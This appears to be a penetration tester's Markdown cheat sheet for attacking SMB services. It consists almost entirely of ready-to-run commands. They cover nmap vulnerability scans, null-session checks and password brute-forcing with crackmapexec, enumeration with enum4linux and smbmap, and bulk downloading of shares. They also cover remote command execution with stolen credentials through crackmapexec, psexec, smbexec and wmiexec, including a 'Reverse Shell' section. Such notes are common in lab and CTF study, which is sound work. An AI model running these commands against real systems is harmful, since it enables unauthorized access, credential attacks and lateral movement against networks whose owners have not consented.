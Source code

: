 
Alway make sure of the SMB version


### Null auth

Nmap
```bash
nmap --script "safe or smb-enum-*" -p 445 $ip
nmap --script smb-vuln* -p 139,445 $ip
```
Check for null auth with cme
```bash
crackmapexec smb 10.129.227.255 -u '' -p '' --continue-on-success
```
enum using enum4linux
```bash
cd /opt/enum4linux-ng
source venv/bin/activate
enum4linux-ng -A [-u "<username>" -p "<passwd>"] <IP>
```
bruteforce username password, ideally have a username
```bash
crackmapexec smb 10.129.227.255 -u <username/users_list.txt> -p <password/password_list.txt> --continue-on-success
```
smbmap
```bash
smbmap -R -H $ip
smbmap -H $ip
```

Check with RPC


### Download files

smbmap - recursion might be inaccurate
```bash
#Search a file and download
sudo smbmap -R Folder -H <IP> -A <FileName> -q # Search the file in recursive mode and download it inside /usr/share/smbmap
```

```bash
#Download all
smbclient //<IP>/<share>
> mask ""
> recurse
> prompt
> mget *
#Download everything to current directory
```

### With creds
smbmap
```bash
smbmap -H -u <username> -p <password> -d <domain>
```

#### Execute Commands (with creds)

```bash
crackmapexec smb 192.168.10.11 -u Administrator -p 'P@ssw0rd' -x whoami #Excute cmd
# Using --exec-method {mmcexec,smbexec,atexec,wmiexec} -> default = wmiexec
```

```bash
psexec \\192.168.122.66 -u Administrator -p 123456Ww
```

```bash
python3 /usr/share/doc/python3-impacket/examples/smbexec.py [[domain/]username[:password]@]<targetName or address>
```

```bash
./wmiexec.py [[domain/]username[:password]@]<targetName or address> #Prompt for password
```

#### Reverse Shell
```bash
# wmiexec is less noisy than psexec
/usr/bin/impacket-wmiexec <username>@192.168.56.102
```
```bash
# psexec
# Drosp a binary on the target → Noisy
/usr/share/doc/python-impacket/examples/psexec.py $domain/$username:$password@192.168.56.102
```

